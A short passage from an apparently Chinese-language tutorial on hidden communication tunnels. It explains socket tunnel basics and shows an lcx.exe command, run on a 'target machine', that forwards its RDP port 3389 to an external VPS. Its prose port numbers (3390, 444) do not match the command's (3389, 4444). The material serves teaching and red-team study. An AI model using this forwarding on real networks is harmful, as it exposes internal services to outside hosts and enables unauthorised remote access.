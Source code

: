 windows为lcx.exe，linux为portmap。

一个正常的socket隧道必须具备两端：

一个服务端，监听一个端口，等待用户的连接。

一个客户端，通过传入服务端的IP地址和端口，才能主动与服务器连接。

1、内网端口转发
在目标机器上执行如下命令，将目标3390端口的所有数据转发到服务端VPS的444端口上：

```
lcx.exe -slave 服务端IP 4444 127.0.0.1 3389
```

![](img/隐藏通信隧道基础知识/24.png)

在Vps服务端执行如下命令，将本机的4444端口上监听的所有数据转发到本机的5555端口上：
